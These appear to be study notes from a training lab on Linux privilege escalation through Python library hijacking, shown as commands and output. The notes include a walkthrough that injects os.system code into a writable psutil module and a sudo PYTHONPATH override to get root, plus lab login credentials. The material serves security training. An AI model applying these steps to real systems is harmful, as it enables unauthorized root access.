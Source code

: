 Python libraries can be hijacked via the following ways:
- wrong write permissions. i.e., the SUID bit is set for a file or other resource
- library path
- PYTHONPATH environment variable

### Library Path Listing

The order in which Python imports `modules` from are based on a priority system, meaning that paths higher on the list take priority over ones lower on the list. Executing the below command will show the order of modules imported by Python:

```shell-session
python3 -c 'import sys; print("\n".join(sys.path))'
```
```shell-session
/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages
```

> [!NOTE] This method requires two pre-requisites:
>1. ==The module that is imported by the script is located under one of the lower priority paths listed via the PYTHONPATH variable.==
>2. ==We must have write permissions to one of the paths having a higher priority on the list.==

View a programs default install location:
```
pip show psutil
```

### PYTHONPATH 

`PYTHONPATH` is an environment variable that indicates what directory (or directories) Python can search for modules to import.

Assume you are allowed to run `/usr/bin/python3` under the trusted permissions of `sudo` and are therefore allowed to set environment variables for use with this binary by the `SETENV`
```shell-session
sudo -l 

Matching Defaults entries for htb-student on ACADEMY-LPENIX:
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ACADEMY-LPENIX:
   (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

Using the `/usr/bin/python3` binary, we can effectively set any environment variables under the context of our running program.

```shell-session
sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py

uid=0(root) gid=0(root) groups=0(root)
...SNIP...
```

# Questions\

IP
```
10.129.205.114
```

USERNAME
```
htb-student
```

PASSWD
```
HTB_@cademy_stdnt!
```

SSH
```
ssh htb-student@10.129.205.114
```

Although it's the same as the examples in the module, proceed as if you have no information.

### Enumeration

**Finding writeable files in the htb-student's home folder**
```
htb-student@ubuntu:~$ find /home/htb-student -type f -perm -04000 -ls 2>/dev/null
3724      4 -rwSrwxr-x   1 root     root          192 May 19  2023 /home/htb-student/mem_status.py
```

The file `mem_status.py` has the SUID bit set. We can also read the contents and execute the script.

Viewing the file, I see it's being called by psutil which is imported. psutil is also calling the `virtual_memory()`
```
#!/usr/bin/env python3
import psutil

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total

print(f"Available memory: {round(available_memory, 2)}%")
```

Find the default location of psutil: ==/usr/local/lib/python3.8/dist-packages==
```
htb-student@ubuntu:~$ pip3 show psutil
Name: psutil
Version: 5.9.5
Summary: Cross-platform lib for process and system monitoring in Python.
Home-page: https://github.com/giampaolo/psutil
Author: Giampaolo Rodola
Author-email: g.rodola@gmail.com
License: BSD-3-Clause
Location: /usr/local/lib/python3.8/dist-packages
Requires: 
Required-by: 
htb-student@ubuntu:~$ 
```

The the __init__.py function appears to be writeable by our user, `htb-student`
```
htb-student@ubuntu:~$ ls -la /usr/local/lib/python3.8/dist-packages/psutil
total 568
drwxr-sr-x 4 root        staff   4096 Jun  7  2023 .
drwxrwsr-x 6 root        staff   4096 Jun  5  2023 ..
-rw-r--r-- 1 root        staff  29181 May 19  2023 _common.py
-rw-r--r-- 1 root        staff  15025 May 19  2023 _compat.py
-rw-r--r-- 1 htb-student staff  87657 Jun  8  2023 __init__.py
-rw-r--r-- 1 root        staff  18665 May 19  2023 _psaix.py
-rw-r--r-- 1 root        staff  31769 May 19  2023 _psbsd.py
-rw-r--r-- 1 root        staff  86913 May 19  2023 _pslinux.py
-rw-r--r-- 1 root        staff  16275 May 19  2023 _psosx.py
-rw-r--r-- 1 root        staff   8245 May 19  2023 _psposix.py
-rw-r--r-- 1 root        staff  25486 May 19  2023 _pssunos.py
-rwxr-xr-x 1 root        staff 107400 May 19  2023 _psutil_linux.abi3.so
-rwxr-xr-x 1 root        staff  71008 May 19  2023 _psutil_posix.abi3.so
-rw-r--r-- 1 root        staff  37425 May 19  2023 _pswindows.py
drwxr-sr-x 2 root        staff   4096 Jun  5  2023 __pycache__
drwxr-sr-x 3 root        staff   4096 Jun  5  2023 tests
htb-student@ubuntu:~$ 
```

The `virtual_memory()` function is found on line 1920. Here you will place the following inside the function:
```
import os
os.system('id')
```

Execute and you will see you are able to execute the function as root:
```
sudo /usr/bin/python3 /home/htb-student/mem_status.py 
uid=0(root) gid=0(root) groups=0(root)
uid=0(root) gid=0(root) groups=0(root)
Available memory: 88.76%
```



